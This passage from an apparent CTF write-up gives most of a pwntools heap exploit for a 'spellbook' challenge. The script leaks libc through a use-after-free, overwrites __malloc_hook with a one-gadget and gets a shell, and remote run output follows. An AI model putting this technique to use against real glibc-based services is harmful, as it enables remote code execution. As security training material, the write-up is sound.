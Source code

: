```
    print(target.recvuntil(b'4. Delete'))
    target.sendline(b'4')
    
    print(target.recvuntil(b's entry:'))
    target.sendline(str(index))

add(1, b'a' * 0x17, 0x100, b'b' * (0x100-1))
add(2, b'c' * 0x17, 0x60, b'd' * (0x60-1))
add(3, b'c' * 0x17, 0x60, b'd' * (0x60-1))

delete(1)
show(1)
print(target.recvuntil(b'type:'))
print(target.recvuntil(b': '))
leak = target.recv(6)
free_libc = u64(leak + b'\x00' * 2) - 0x340638
print(hex(free_libc))



libc_base = free_libc - libc.symbols['free']
execve = libc_base + libc.symbols['execve']
malloc_hook = libc_base + libc.symbols['__malloc_hook']
onegadget = libc_base + 0x4527a
print(hex(onegadget))
print(hex(malloc_hook))

delete(3)
delete(2)
show(2)


print(target.recvuntil(b'type:'))
print(target.recvuntil(b': '))

leak = target.recv(6)
heap_leak = u64(leak+b'\x00' * 2)
print(hex(heap_leak))

edit(2, p64(heap_leak-0x210), p64(malloc_hook-0x23))



add(4, b'e' * 0x17, 0x60, cyclic(0x60-1))
add(5, b'f' * 0x17, 0x60, b'a' * 19 + p64(onegadget))

print(target.recvuntil(b'4. Delete'))
target.sendline(b'1')

print(target.recvuntil(b's entry:'))
target.sendline(b'6')

target.interactive()
```
When I execute the script against the remote server, a shell is spawned and I can read the flag!
```
knittingirl@DESKTOP-C54EFL6:/mnt/c/Users/Owner/Desktop/CTF_Files/HTB_Uni22/pwn_spellbook/challenge$ python3 spellbook_exploit.py
[+] Opening connection to 167.99.206.87 on port 30567: Done
[*] '/mnt/c/Users/Owner/Desktop/CTF_Files/HTB_Uni22/pwn_spellbook/challenge/glibc/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
```